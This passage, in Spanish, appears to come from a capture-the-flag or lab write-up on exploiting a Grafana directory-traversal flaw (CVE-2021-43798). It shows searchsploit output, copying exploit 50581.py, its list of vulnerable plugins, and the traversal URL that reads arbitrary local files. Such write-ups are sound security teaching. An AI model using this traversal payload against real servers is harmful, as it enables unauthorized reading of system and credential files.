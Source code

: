 ```bash
Grafana <=6.2.4 - HTML Injection                                                                                                                            | typescript/webapps/51073.txt
------------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
Shellcodes: No Results
```
Tenemos un Exploit que aplica **Directory Traversal**, aunque no es para la versión que necesitamos.

Vamos a copiarlo en nuestro directorio de trabajo:
```bash
searchsploit -m multiple/webapps/50581.py
  Exploit: Grafana 8.3.0 - Directory Traversal and Arbitrary File Read
      URL: https://www.exploit-db.com/exploits/50581
     Path: /usr/share/exploitdb/exploits/multiple/webapps/50581.py
    Codes: CVE-2021-43798
 Verified: False
File Type: Python script, ASCII text executable

mv 50581.py GrafanaExploit.py
```

Si analizamos el contenido del Exploit, veremos que funciona para varias versiones:
```bash
nano GrafanaExploit.py
---
...
# Description: Grafana versions 8.0.0-beta1 through 8.3.0 is vulnerable to directory traversal, allowing access to local files.
```
Entonces, debe funcionar para la versión que nos estamos enfrentando.

Analizando un poco más, veremos que la vulnerabilidad existe dentro del endpoint `/public/plugins` más una lista de plugins que pueden aplicar esta vulnerabilidad:
```bash
plugin_list = [
    "alertlist",
    "annolist",
    "barchart",
    "bargauge",
    "candlestick",
    "cloudwatch",
    "dashlist",
    "elasticsearch",
    "gauge",
    "geomap",
    "gettingstarted",
...
url = args.host + '/public/plugins/' + choice(plugin_list) + '/../../../../../../../../../../../../..' + file_to_read
```
Además, solamente debemos darle la URL donde está desplegado **Grafana** y el archivo a leer.
